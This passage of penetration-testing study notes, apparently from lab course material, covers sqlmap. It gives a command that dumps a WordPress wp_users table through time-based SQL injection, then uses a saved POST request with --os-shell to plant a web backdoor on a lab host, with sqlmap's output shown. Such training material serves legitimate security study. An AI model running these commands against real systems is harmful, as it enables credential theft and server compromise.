 Example for modified dump:
```
sqlmap -u "http://alvida-eatery.org/wp-admin/admin-ajax.php?action=get_question&question_id=1" -p question_id -D wordpress -T wp_users --technique=T --dump --flush-session
```
#### OS Shell
Another <mark style="background: #D2B3FFA6;">sqlmap</mark> core feature is the `--os-shell` parameter, which provides us with a full interactive shell
+ Due to their generally high latency, time-based blind SQLi are not ideal when interacting with a shell, so we'll use the first UNION-based SQLi example

First, we need to intercept the POST request via Burp and save it as a local text file on our Kali VM
``` HTTP
POST /search.php HTTP/1.1
Host: 192.168.50.19
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://192.168.50.19
Connection: close
Referer: http://192.168.50.19/search.php
Cookie: PHPSESSID=vchu1sfs34oosl52l7pb1kag7d
Upgrade-Insecure-Requests: 1

item=test
```

Next, we can invoke <mark style="background: #D2B3FFA6;">sqlmap</mark> with the **-r** parameter, using our file containing the POST request as an argument
+ We also need to indicate which parameter is vulnerable to <mark style="background: #D2B3FFA6;">sqlmap</mark>, in our case `item`
+ Finally, we'll include **--os-shell** along with the custom writable folder we found earlier:
+ Example:
```
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
```

```
...
[*] starting @ 02:20:47 PM /2022-05-19/

[14:20:47] [INFO] parsing HTTP request from 'post'
[14:20:47] [INFO] resuming back-end DBMS 'mysql'
[14:20:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: item (POST)
...
---
[14:20:48] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.6
[14:20:48] [INFO] going to use a web backdoor for command prompt
[14:20:48] [INFO] fingerprinting the back-end DBMS operating system
[14:20:48] [INFO] the back-end DBMS operating system is Linux
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 4
```